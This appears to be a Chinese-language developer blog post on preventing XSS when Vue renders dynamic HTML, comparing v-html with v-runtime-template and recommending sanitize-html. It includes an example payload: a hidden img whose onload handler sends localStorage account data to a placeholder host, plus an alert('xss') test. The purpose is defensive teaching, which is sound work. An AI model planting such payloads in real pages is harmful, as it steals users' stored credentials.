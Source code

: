 ```yaml
---
title: Vue Dynamic HTML Prevent XSS
date: 2022-06-26 23:39:36
tags:
  - Vue
  - v-html
  - v-sanitize
  - v-runtime-template
---
```


在開發系統中 有可能會需要使用到 CMS 系統或是動態抓取 CDN 的頁面 取得

使用者動態設定的樣板或是 Banner 這裡一般人可能不會特別想到就是 XSS Attack

我曾經遇過 真的有被駭客將靜態的 html 檔案裏面故意塞惡意程式碼，導致使用者看到錯誤畫面的狀況

(ex: 這些 html 可能被駭客塞一些 js or redirect 導到錯誤網站 讓使用者看到一些錯誤資訊)

可以參考這篇
[Vue XSS Attack Guide](https://www.stackhawk.com/blog/vue-xss-guide-examples-and-prevention/#injecting-the-malicious-script)

舉例來說我們可以透過隱藏的圖片發送 request 給 駭客的 Server 並且偷取到對應的 Cookie or Session ....

```html
<img
  src="xxxx"
  style="display:none"
  onload="fetch('https://test.api/', {method: 'POST', body: localStorage.getItem('account')})"
/>
```

回到主題來說
這裡列出兩種 vue 的 componet 可以動態 compile html ，這裡列出來用途以及差異
| Plugnin | Support | different | |
|--------------------|--------|--- --------|---|
| v-html | 只支援純粹 HTML 無法支援 vue custom component | 無法防止 XSS attack |
| v-runtime-template | 支援 vue custom component & variabe (需事先定義好) | 無法防止 XSS attack |

以下是範例
[DEMO](https://codesandbox.io/s/dynamic-template-yvfx0n)

我們可以看到我們在圖片 loading 的過程中插入 alert 如果沒有做任何阻擋 兩種方法都會跳 Alert

```html
<img
  src="https://jnx.me/img/profile.jpg"
  style="display:none"
  onload="alert('xss');"
/>
```

接下來我們介紹今天的主角 Sanitize html

[sanitize html](https://github.com/apostrophecms/sanitize-html)
在 Vue 3 裡面可以用[vue-3-sanitize](https://github.com/vannsl/vue-3-sanitize)

套件

我們這裡可以透過此套件做比較主要的三件事情

1. 限制動態 HTML 的 TAG
2. 限制 CSS &Script 語法的 domain

```javascript
const clean = sanitizeHtml(
  '<script src="https://www.safe.authorized.com/lib.js"></script>',
  {
    allowedTags: ['script'],
    allowedAttributes: {
      script: ['src'],
    },
    allowedScriptDomains: ['authorized.com'],
  }
);
```
